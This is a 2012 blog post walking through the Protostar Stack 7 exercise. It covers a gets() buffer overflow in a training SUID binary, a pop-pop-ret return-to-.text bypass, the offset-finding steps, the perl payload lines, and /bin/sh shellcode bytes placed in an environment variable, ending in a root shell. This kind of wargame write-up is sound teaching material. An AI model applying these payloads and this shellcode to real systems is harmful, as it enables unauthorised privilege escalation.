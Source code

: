 ```yaml
---
title: "Exploit Exercises - Protostar Stack 7"
date: "2012-01-09T18:36:00-05:00"
comments: true
highlight: "true"
categories:
 - ret2text
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - suid
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-stack-7.html"
 - "/2011/12/22/exploit-exercises-protostar-stack-7"
---
```


Welcome everyone to 2012! I took a bit of a break during these holidays, and am just starting to get back going. 

[This challenge](http://exploit-exercises.com/protostar/stack7) was very interesting to me.  I figured it would build off of the previous one.  However, it was its own standalone challenge. 

<!-- more -->

We are given the following code to the stack7 executable: 


```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
 char buffer[64];
 unsigned int ret;

 printf("input path please: "); fflush(stdout);

 gets(buffer);

 ret = __builtin_return_address(0);

 if((ret &amp; 0xb0000000) == 0xb0000000) {
  printf("bzzzt (%p)\n", ret);
  _exit(1);
 }

 printf("got path %s\n", buffer);
 return strdup(buffer);
}

int main(int argc, char **argv)
{
 getpath();



}
```
From tinkering with the stack7 executable, I knew I was going to do a stack overflow, and somehow needed to execute code from the stack.  However, similar to the previous challenge, there was a filter on my return address, making it so I couldn't just jump to an address in the stack.  This meant figuring out a way around it. 

Using the note about this being a "return to .text" exploit, I started reading up.  This is a type of exploit that uses part of the executable, albeit even a string to execute as code, because the same characters are also x86 assembler instructions.  So I went about trying to find some code that would let me essentially, "jmp esp", or jump to the stack pointer, where I would put my shellcode.  To do this, I did the following: 

```
mandreko@li225-134:~$ msfelfscan -j esp stack7
[stack7]
```

This was disappointing.  At first, I thought maybe I was not using msfelfscan correctly, and had to tinker a bit.  But it just turns out, that there is no "jmp esp" in stack7.  What a bummer.  However, on a whim, I tried to see if maybe another option to msfelfscan would work: 

```
mandreko@li225-134:~$ msfelfscan -p stack7
[stack7]
0x08048492 pop ebx; pop ebp; ret
0x080485c7 pop edi; pop ebp; ret
0x080485f7 pop ebx; pop ebp; ret
```

This is great! Some results!  Now let's just pick one, and attempt to use it as the return address in our overflow.  I found that the EIP offset was 80 bytes, so I wired it up as so, and debugged it: 

```
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x100' > /home/user/file
user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

This is a good sign.  It is overwriting the EIP now with "C" values (0x43).  So now we just need to know where in the 100 "C"s the return address is going to.  To do that, I did similar process to finding an EIP offset: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"' > /home/user/file

user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x33614132 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x33614132
8
```

I simply generated a unique string using pattern_create.rb to replace the 100 "C"s, and then used pattern_offset.rb to tell me the offset when gdb got a segmentation fault.  So now I know that the first 8 "C"s are just junk.  Just to verify this, I ran it again, a little differently: 

```
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x8 . "D"x8 . "E"x100' > file
user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCCDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```

This shows the 4 "D"s were properly placed, which proved to me that I was indeed going to need my buffer to look like:

```
| 80 bytes junk | pop-pop-ret | 8 bytes junk | address to execute |
```

Since it was actually going to execute the instructions at the last dword, I opted to put my shellcode in an environmental variable, since it was easy.  I again used the same [shellcode](http://www.exploit-db.com/exploits/13357) for dealing with gets() as I have in the last couple challenges: 

```
user@protostar:/opt/protostar/bin$ export SHELLCODE=`perl -e 'print "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```
The next problem was to find out where the address would reside in memory.  I used getenvaddr.c again to show me the address. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }

        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```
Just to be sure, I went to the /opt/protostar/bin directory to do this, since I knew the address could change based on what folder I was in.  I used this to get the address of my SHELLCODE variable by doing the following: 

```
user@protostar:/opt/protostar/bin$ /home/user/getenvaddr SHELLCODE ./stack7
SHELLCODE will be at 0xbffff985
```
Using this address, I exploited the stack7 executable: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x8 . "\x85\xf9\xff\xbf"' > /home/user/file
user@protostar:/opt/protostar/bin$ ./stack7 < /home/user/file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCC▒▒▒▒
# whoami
root
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
#
```
There you have it, root access, and it was fairly easy.  This is the last challenge in the Protostar VM under the "Stack" category.  Next post you see should be a new category.
